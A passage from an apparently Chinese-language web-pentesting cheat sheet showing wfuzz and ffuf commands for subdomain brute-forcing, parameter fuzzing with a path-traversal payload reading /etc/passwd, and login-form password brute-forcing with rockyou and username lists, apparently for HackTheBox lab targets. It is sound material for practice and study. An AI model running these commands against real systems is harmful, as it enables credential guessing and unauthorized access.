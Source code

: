 ## 子域名爆破

```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u planning.htb -H "Host:FUZZ.planning.htb" --hc=301
```

## GET参数名爆破

```
wfuzz -c -z file,wordlist.txt --hh=306 http://example.com/index.php?file=../../../../../../../etc/passwd
```



# FFUF

[FFUF](https://freedium.cfd/https://medium.com/@stealthsecurity/fuzzing-web-applications-using-ffuf-c4ad74190b72)是一个比wfuzz高级一点的工具，它俩功能都差不多，ffuf性能要比wfuzz好不少。**使用-p选项限制并发请求的数量**。

## POST表单爆破--单参数

```
ffuf -w /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -X POST -d "username=FUZZ&&password=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://mydomain.com/login -mr "username already exists"

示例如下：
ffuf -w /usr/share/wordlists/rockyou.txt -X POST -d "_token=T4xdpFfL2xEFSGfMRzI4sez6ioycRiLFLcTcWFQ6&email=1%40qq.com&password=FUZZ&remember=False" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: XSRF-TOKEN=eyJpdiI6IkdtVWJ6OVFQckxXemdHaTUyRWFDTnc9PSIsInZhbHVlIjoid1NLV2szRG1wbW01a1B0bDVabkNaY050M01YUGxYa3oxUmR4TXJrMUxQSk5TbWlrOUg4YlQ5YUdrUjZjMlJDUkowN2J4V1VxSVNYK1kwYmdSUkNrcDFWbmpWNU9wTkZ3QTQ4eXhHN0ZOUitidVJQN0ZQZG5PWU45aFFaZ1JDMTAiLCJtYWMiOiJhNTkyNjMzYjIyZjkwODNjZTA0Mjg2NDVkM2Y2MDVhYjIwM2JjZDkzMTkxZTNkMmUxNGNiYjVmOTU4ZTZmMTU1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkEvVkFwd3U1c3hNelVTVlVQOE5neHc9PSIsInZhbHVlIjoiOHc2cmltWkxxbkpuaE53UEY5T21qd1ZQQWZYWEhzTmxPRVVjRU1SU2hCbDRXWE45a2VLc1BIcytKWjRwMmpHa3hoSGt5eGZJcThiYTRKV2IzTXZYbkJPT2JObm9qQnRzSHUwV0FqQnVVaXd0WmdKL0VoM1dmRUZKRWs3d2tNNmkiLCJtYWMiOiJjMTI0MjJjYzMxZjRiZjYyZTQ4NGFhMzBmYzNkMWIyNjYyOTA4ZjRkYjFhYzZjNDJjODI3OWUxMDM5MmVmMGUyIiwidGFnIjoiIn0%3D" -u http://environment.htb/login -x socks5://192.168.80.129:1090 -fr "Invalid credentials" -c -t 10
```

## POST表单爆破--双参数

```
ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://localhost:3000/login -fc 200
```

## 子域名爆破
